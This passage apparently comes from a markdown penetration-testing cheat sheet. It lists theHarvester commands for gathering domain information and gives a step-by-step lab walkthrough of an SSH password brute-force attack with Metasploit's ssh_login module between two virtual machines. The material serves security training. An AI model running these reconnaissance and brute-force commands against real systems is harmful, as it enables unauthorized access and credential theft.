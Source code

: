     ```

---

## **`theHarvester`**

- `theHarvester -d <domain> -l 100 -b google`: Collects 100 results from Google for the specified domain.
- `theHarvester -d <domain> -b all`: Gathers information from all supported search engines.
- `theHarvester -d <domain> -b bing -f report.html`: Fetches data from Bing and saves it as an HTML report.

---

## **SSH Password Cracking Brute Force**

#### **Environment Preparation:**

1. Have two virtual machines (Kali or Debian-based).
2. One acts as **target** (SSH service running), other as **attacker** (Metasploit running).
3. Ensure both machines are on the same network and can ping each other.

---

#### **Steps to Perform Brute Force Attack:**

1. **Start Metasploit on Attacker Machine:**
    ```bash
    msfconsole
    ```
2. **Load SSH Login Module:**
    ```bash
    use auxiliary/scanner/ssh/ssh_login
    ```
3. **Set Target Parameters:**
    ```bash
    set RHOSTS <Target_IP>
    set USERNAME <username>
    ```
4. **Specify Password List:**
    ```bash
    set PASS_FILE password.txt
    ```
5. **Set Verbose:**
    ```bash
    set VERBOSE true
    ```
6. **Start Attack:**
    ```bash
    run
    ```
    